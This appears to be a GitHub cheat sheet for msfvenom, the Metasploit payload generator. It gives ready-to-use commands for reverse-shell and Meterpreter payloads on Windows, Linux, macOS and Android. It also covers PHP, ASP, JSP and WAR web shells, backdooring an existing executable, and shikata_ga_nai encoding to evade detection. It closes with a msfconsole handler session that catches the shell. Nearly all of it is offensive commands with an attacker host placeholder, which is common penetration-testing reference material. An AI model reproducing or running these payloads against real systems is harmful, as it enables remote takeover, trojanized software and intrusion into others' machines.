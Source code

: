 # MSFVenom

MsfVenom is a Metasploit standalone payload generator as a replacement for msfpayload and msfencode.

## Creting Binaries
`msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe`	Creates a simple TCP Payload for Windows
`msfvenom -p windows/meterpreter/reverse_http LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe`	Creates a simple HTTP Payload for Windows
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f elf > example.elf	Creates a simple TCP Shell for Linux
`msfvenom -p osx/x86/shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f macho > example.macho`	Creates a simple TCP Shell for Mac
`msfvenom -p android/meterpreter/reverse/tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} R > example.apk`	Creats a simple TCP Payload for Android

## Web Payloads
Command	Info
`msfvenom -p php/meterpreter_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f raw > example.php`	Creats a Simple TCP Shell for PHP
`msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f asp > example.asp`	Creats a Simple TCP Shell for ASP
`msfvenom -p java/jsp_shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f raw > example.jsp`	Creats a Simple TCP Shell for Javascript
`msfvenom -p java/jsp_shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f war > example.war`	Creats a Simple TCP Shell for WAR

## Windows Payloads

`msfvenom -l encoders`	Lists all avalaible encoders
`msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe`	Binds an exe with a Payload (Backdoors an exe)
`msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -e x86/shikata_ga_nai -b ‘\x00’ -i 3 -f exe > example.exe`	Creates a simple TCP payload with shikata_ga_nai encoder
`msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -e x86/shikata_ga_nai -i 3 -b “\x00” -f exe > example.exe`	Binds an exe with a Payload and encodes it

## Getting a Metepreter Shell
```
omar@ares:~$ sudo msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(multi/handler) > set lport 4444
lport => 4444
msf exploit(multi/handler) > run
```
